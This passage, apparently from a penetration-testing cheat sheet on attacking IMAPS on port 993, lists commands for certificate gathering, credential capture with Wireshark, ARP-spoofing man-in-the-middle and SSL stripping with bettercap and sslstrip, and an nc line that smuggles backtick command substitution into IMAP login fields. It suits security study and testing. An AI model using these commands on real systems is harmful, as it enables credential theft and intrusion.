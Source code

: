 #### Certificate Information Gathering

*   **Tool:** \[\[OpenSSL]]

    ```bash
    openssl s_client -connect <target_ip>:993 -showcerts
    ```
* **Description:** Retrieves and displays the server’s certificate chain, useful for identifying the certificate authority and the strength of the encryption.

### Credential Harvesting

#### Packet Capture

*   **Tool:** \[\[Wireshark]]

    ```bash
    wireshark -i <interface> -f "tcp port 993"
    ```
* **Description:** Capture traffic and extract plaintext credentials.

#### Man-in-the-Middle (MITM) Attack

*   **Tool:** \[\[BetterCap Cheat Sheet]]

    ```bash
    bettercap -iface <interface> -T <target_ip> --proxy
    ```
* **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

#### SSL Strip Attack

*   **Tool:** \[\[BetterCap Cheat Sheet]], \[\[SSLStrip Cheat Sheet]]

    ```bash
    bettercap -iface <interface> -T <target_ip> --proxy

    sslstrip -l 993
    ```
* **Description:** Stripping SSL from connections in a man-in-the-middle attack, forcing clients to connect over unencrypted channels.

### Internal Reconnaissance

#### IMAP Injection

*   **Tool:** \[\[NetCat]]

    ```bash
    echo 'A1 LOGIN "`/bin/ls`" "`/bin/ls`"' | nc <target_ip> 993
    ```

\


*   **Tool:** \[\[IMAP]]
